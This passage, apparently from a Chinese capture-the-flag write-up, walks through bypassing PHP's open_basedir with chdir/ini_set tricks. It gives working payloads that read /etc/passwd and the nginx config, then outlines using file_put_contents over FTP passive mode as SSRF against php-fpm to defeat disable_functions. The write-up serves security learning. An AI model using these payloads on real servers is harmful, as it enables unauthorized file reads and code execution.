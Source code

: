 ```
<?php
mkdir('T0WN');  //创建一个目录T0WN
chdir('T0WN');  //切换到T0WN目录下
ini_set('open_basedir','..');  //把open_basedir切换到上层目录
chdir('..');  //以下这三步是把目录切换到根目录
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd');  //读取/etc/passwda
```

payload

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
```

![image-20211108141332859](images/6.png)

读到了/etc/passwd

![image-20211108141442203](images/7.png)

读一下flag

![image-20211108141518533](images/8.png)

无法读取

回到phpinfo

![image-20211108141656584](images/9.png)

php-fpm开启的

读取`/proc/self/cmdline`时发现当前进程是`php-fpm`

![image-20211108141854172](images/10.png)

这道题应该是用php-fpm来绕过disable_functions了

看一下Nginx的配置文件查看fpm的端口信息

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/nginx/sites-enabled/default');
```

![image-20211108142558952](images/11.png)

发现fastcgi的端口开放在9001

我们可以通过SSRF来攻击FPM，但是受限于这道题的disable_functions，我们无法直接SSRF，但是可以利用`file_put_contents()`的一个特性来实现SSRF：

`file_put_contents`在使用 ftp 协议时, 会将 data 的内容上传到 ftp 服务器, 由于`pasv`模式下, 服务器的地址和端口是可控, 我们可以将地址和端口指到`127.0.0.1:9001`.同时由于 ftp 的特性,不会有任何的多余内容, 类似`gopher`协议, 会将`data`原封不动的发给`127.0.0.1:9001`, 完美符合攻击fastcgi(FPM)的要求.
